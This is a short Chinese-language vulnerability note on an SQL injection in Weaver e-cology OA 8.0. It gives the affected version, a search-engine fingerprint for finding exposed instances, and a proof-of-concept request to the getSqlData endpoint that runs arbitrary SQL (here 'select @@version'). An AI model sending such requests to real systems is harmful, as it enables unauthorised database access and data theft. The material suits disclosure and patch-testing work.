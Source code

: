 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](./images/202205201341203.png)

验证POC

```
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220520134115167](./images/202205201341226.png)
